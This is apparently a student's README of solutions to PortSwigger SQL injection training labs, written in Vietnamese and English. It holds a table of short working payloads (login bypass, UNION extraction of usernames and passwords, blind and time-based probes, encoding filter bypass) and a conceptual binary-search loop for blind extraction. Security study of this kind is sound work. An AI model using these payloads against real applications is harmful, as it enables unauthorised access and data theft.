

# 💉 SQL Injection (SQLi) Knowledge Base & Write-ups

> **Status:** 17/18 Labs Solved (In Progress: Out-of-band OAST)

## 📌 Phân loại & Tổng Quan

SQL Injection là lỗ hổng bảo mật web xảy ra khi kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện tới cơ sở dữ liệu của nó.



---

## 📋 Danh Sách Lab PortSwigger SQLi

| ID | Tên Lab | Cấp độ | Kỹ thuật / Payload tóm tắt | Trạng thái |
| :---: | :--- | :---: | :--- | :---: |
| 01 | SQLi vulnerability in WHERE clause allowing retrieval of hidden data | Apprentice | `' OR 1=1--` | ✅ |
| 02 | SQLi vulnerability allowing login bypass | Apprentice | `administrator'--` | ✅ |
| 03 | SQLi UNION attack, determining the number of columns returned | Practitioner | `ORDER BY 1,2,3...` hoặc `' UNION SELECT NULL,NULL--` | ✅ |
| 04 | SQLi UNION attack, finding a column containing text | Practitioner | `' UNION SELECT 'a',NULL--` | ✅ |
| 05 | SQLi UNION attack, retrieving data from other tables | Practitioner | `' UNION SELECT username, password FROM users--` | ✅ |
| 06 | SQLi UNION attack, retrieving multiple values in a single column | Practitioner | Concatenation: `username \|\| '~' \|\| password` | ✅ |
| 07 | SQLi attack, querying the database type and version on Oracle | Practitioner | `' UNION SELECT banner, NULL FROM v$version--` | ✅ |
| 08 | SQLi attack, querying the database type and version on MySQL and Microsoft | Practitioner | `' UNION SELECT @@version, NULL#` | ✅ |
| 09 | SQLi attack, listing the database contents on non-Oracle databases | Practitioner | `information_schema.tables`, `information_schema.columns` | ✅ |
| 10 | SQLi attack, listing the database contents on Oracle | Practitioner | `all_tables`, `all_tab_columns` | ✅ |
| 11 | Blind SQLi with conditional responses | Practitioner | TrackingId cookie: `' AND (SELECT SUBSTRING(password,1,1)...)='a` | ✅ |
| 12 | Blind SQLi with conditional errors | Practitioner | Oracle `CASE WHEN ... THEN TO_CHAR(1/0) ELSE NULL END` | ✅ |
| 13 | Visible error-based SQLi | Practitioner | `CAST((SELECT password FROM users LIMIT 1) AS int)` | ✅ |
| 14 | Blind SQLi with time delays | Practitioner | `pg_sleep(10)` | ✅ |
| 15 | Blind SQLi with time delays and information retrieval | Practitioner | `pg_sleep(CASE WHEN (SELECT ...)...)` | ✅ |
| 16 | Blind SQLi with out-of-band interaction | Practitioner | XML External Entity / Oracle `UTL_HTTP` DNS pingback | ⏳ |
| 17 | SQLi with filter bypass via XML encoding | Practitioner | Hex entity encoding: `&#x53;ELECT` | ✅ |
| 18 | Blind SQLi with out-of-band data exfiltration | Practitioner | DNS exfiltration qua Burp Collaborator | ⏳ |

---

## 💡 Kỹ Thuật Trọng Tâm Cần Nhớ

### 1. Phân biệt Comment syntax giữa các DBMS:
- **PostgreSQL / SQLite / Oracle:** `--comment`
- **MySQL:** `-- comment` (phải có khoảng trắng sau dấu gạch nối) hoặc `#`
- **Oracle bắt buộc mệnh đề FROM:** Cần thêm `FROM dual` khi test (ví dụ: `' UNION SELECT NULL FROM dual--`)

### 2. Blind SQLi Automation Script Concept (Binary Search)
Khi khai thác Blind SQLi (Boolean-based hoặc Time-based), thay vì brute-force tuyến tính từng ký tự ($O(N \times K)$), sử dụng tìm kiếm nhị phân (Binary Search) giúp giảm số request từ hàng trăm xuống chỉ còn $\approx 7$ request cho mỗi ký tự:

```python
# Conceptual Snippet for Binary Search Blind SQLi
low = 32   # ' ' (space)
high = 126 # '~'
while low <= high:
    mid = (low + high) // 2
    # Gửi payload kiểm tra ASCII(char) > mid
    # Cập nhật low/high dựa trên response
```
*(File script hoàn chỉnh sẽ được cập nhật tại `scripts/sqli/`)*
